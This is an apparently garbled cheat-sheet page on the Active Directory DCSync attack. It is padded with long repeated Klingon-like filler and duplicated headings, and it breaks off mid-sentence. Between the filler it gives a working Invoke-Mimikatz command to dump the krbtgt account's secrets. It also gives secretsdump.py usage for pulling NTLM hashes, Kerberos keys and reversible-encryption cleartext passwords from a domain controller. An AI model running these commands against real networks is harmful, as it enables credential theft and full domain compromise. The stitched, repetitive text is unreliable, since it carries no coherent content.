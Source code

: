 vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH jatlhqa'chugh vItlhutlh 'e' vItlhutlh 'ej vItlhutlh DaH
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
### Qapla' QaD

#### DCSync

##### tlhIngan Hol

#### Qapla' QaD

##### DCSync

##### tlhIngan Hol

#### Qapla' QaD

##### DCSync

##### tlhIngan Hol

#### Qapla' QaD

##### DCSync

##### tlhIngan Hol

#### Qapla' QaD

##### DCSync

##### tlhIngan Hol
```powershell
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```
`-just-dc` generates 3 files:

* one with the **NTLM hashes**
* one withe the **Kerberos keys**
*   one with cleartext passwords from the NTDS for any accounts set with [**reversible encryption**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled. You can get users with reversible encryption with
